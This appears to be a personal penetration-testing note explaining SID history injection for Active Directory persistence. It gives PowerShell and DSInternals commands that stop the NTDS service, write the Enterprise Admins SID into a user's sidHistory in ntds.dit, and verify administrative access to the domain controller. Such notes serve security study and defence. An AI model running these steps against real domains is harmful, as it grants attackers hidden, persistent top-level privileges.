 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#powershell 
- [SID](../../Windows/Windows%20Internals/Uncategorized/SID.md) is used to track the security principal for an account.
- SID history is used to track previous SIDs of the user (maybe while migrating the AD environment to a new one). This allows the user to access resource in the previous/last domain using the new account.
- SID history, by design, can story any SID, and doesn't need to be from other domain.
- With domain admin privileges, we can add/modify SIDs to the SID history property of a user object.
- When the user logs in, the SIDs are added to their access token, which determines the privilege of the user.
- This can be exploited for persistence as we can add the SID of an enterprise admin, as this would elevate the privilege of the user, even though we are not added to the Enterprise Admin group.
- SID property can fetched with AD module:
```powershell
Get-ADUser dr.dragon -Properties sidhistory
# empty by default
```
- Adding SID history using DSInternals
```powershell
# Fetch SID for Enterprise Admins
Get-ADGroup "Enterprise Admins" -Property SID
# Stoping the ntds service
Stop-Service -Name ntds -Force
# Adding the SID history
Add-ADDBSidHistory -SamAccountName "dr.dragon" -SidHistory 'ADMIN_SID' -DatabasePath C:\Windows\NTDS\ntds.dit
# Start the ntds service again
Start-Service -Name ntds
# Verify Enterprise Admin access
dir \\dc.mydomain.local\C$
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
